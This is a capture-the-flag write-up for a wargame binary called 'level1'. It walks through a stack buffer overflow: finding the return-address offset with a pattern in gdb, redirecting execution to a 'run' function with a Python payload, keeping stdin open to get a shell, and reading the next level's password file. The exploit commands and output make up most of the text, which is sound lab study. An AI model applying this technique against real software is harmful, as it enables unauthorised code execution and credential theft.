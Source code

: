 First we start by looking the binary file using gdb

We can see that we must go to thee function run

lets start simple just by a basic pattern overflow

We will use the pattern :
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

When executed in gdb we have:
```
(gdb) r
Starting program: /home/user/level1/level1 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
(gdb) x/s $esp
0xbffff730:      "uuuuvvvvwwwwxxxxyyyyzzzz"
```
Here we can see that we have we have un error in the at the end of the stack (esp)

So now we will launch the program the same way but this time we will remove "uuuuvvvvwwwwxxxxyyyyzzzz" + 4 bytes and add a 4 bytes shellcode instead

But When I do:
```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' | ./level1
```
I have :
```
Good... Wait what?
Segmentation fault (core dumped)
```
Here we can see that it enter the run function but we cant use the shell this is because the closed is closed at the end of the program

Now we will put it in a file :
```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' > /tmp/test
```
and 
```
cat /tmp/test - | ./level1
Good... Wait what?
whoami
level2
```
(cat -) keep the stdin open

Since the level1 file belongs to level2 we can now:
cat /home/user/level2/.pass
